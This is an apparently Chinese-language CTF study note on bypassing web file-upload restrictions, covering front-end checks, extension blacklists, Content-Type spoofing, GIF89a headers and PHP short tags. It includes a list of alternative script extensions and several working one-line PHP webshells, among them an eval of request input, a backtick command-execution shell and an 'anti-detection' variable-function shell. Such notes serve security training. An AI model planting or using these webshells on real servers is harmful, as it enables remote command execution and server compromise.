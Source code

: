 ```yaml
---
title: upload
description: 文件上传笔记
tags:
  - CTF
  - WEB
categories:
  - 笔记
cover: 'https://tuchuang.voooe.cn/images/2024/05/15/_202405151024312.jpg'
abbrlink: upload
date: 2024-06-13 11:53:00
---
```

### 前端校验
前端校验一般都是检查后缀名，可以先上传正常后缀文件，后通过bp等抓包工具修改。
一些简单题可能关掉js直接传一句话木马即可，接下来是前后端都有检验的情况

### 检查文件后缀名

```
php|.php5|.php4|.php3|.php2|php1|.html|.htm|.phtml|.pHp|.pHp5|.pHp4|.pHp3|.pHp2|pHp1|.Html|.Htm|.pHtml|.jsp|.jspa|.jspx|.jsw|.jsv|.jspf|.jtml|.jSp|.jSpx|.jSpa|.jSw|.jSv|.jSpf|.jHtml|.asp|.aspx|.asa|.asax|.ascx|.ashx|.asmx|.cer|.aSp|.aSpx|.aSa|.aSax|.aScx|.aShx|.aSmx|.cEr|.sWf|.swf
```
> 注意phtml上传后要访问的是.html

### 检查文件类型
保证Content-Type符合要求:
text/html（HTML 文档）
text/plain（纯文本）
image/gif（GIF 图像）
image/jpeg（JPG 图像）
image/png (PNG 图像）
### 检查文件内容

#### 文件头
GIF89a（常用）
其他图片可以直接在正常图片后面加上一句话木马来伪造图片马
#### 短标签
1. `<? echo '123';?>` #前提是开启配置参数short_open_tags=on
2. `<?=(表达式)?>`  即 `<?php echo (表达式)?>`  #不需要开启参数设置
3. `<% echo '123';%>` #开启配置参数asp_tags=on，并且只能在7.0以下版本使用
4. `<script language="php">@eval($_REQUEST['a']);</script>` #不需要修改参数开关，但是只能在7.0以下可用。
#### 基础免杀木马


1. ``<?=`$_REQUEST[1]`;?>``   //利用反引号执行系统命令
 
2. `<?php$$a=$$_REQUEST['a'];$$b=$$_REQUEST['b'];$$a($$b);?> `
 //a=system&b=tac ../flagaa.php
 
